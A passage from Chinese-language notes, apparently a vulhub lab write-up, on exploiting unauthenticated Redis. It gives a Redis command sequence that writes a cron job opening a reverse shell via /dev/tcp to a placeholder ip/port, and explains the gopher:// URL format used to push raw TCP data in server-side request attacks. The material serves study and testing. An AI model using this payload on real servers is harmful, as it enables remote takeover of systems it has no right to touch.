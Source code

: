 ![](https://img.mi3aka.eu.org/2022/09/5f6840bad2e6365f0e3a2a334e340e12.png)

2. 反弹shell

```
flushall
config set dir /etc/cron.d
config set dbfilename re
set:a:"\n\n\x2a/1 \x2a \x2a \x2a \x2a root /bin/bash -i \x3e\x26 /dev/tcp/ip/port 0\x3e\x261\n\n"
save
```

![](https://img.mi3aka.eu.org/2022/09/240d207dc87560d255b27a81642b125e.png)

>vulhub的redis都是基于debian的,只有centos的cron能够无视错误语句运行

3. 主从复制

>todo

## gopher协议

1. 协议格式

格式里面的特殊字符'_'不一定是它也可以是其他特殊字符,因为gopher协议默认会吃掉一个字符
`gopher://<host>:<port>/<gopher-path>_`后接TCP数据流

如果发起post请求,回车换行需要使用`%0d%0a`,如果存在多个参数,参数之间的`&`也需要进行URL编码

2. 协议通信

![](https://img.mi3aka.eu.org/2022/09/31a0defb4141aa37ab7218a9788d6c82.png)

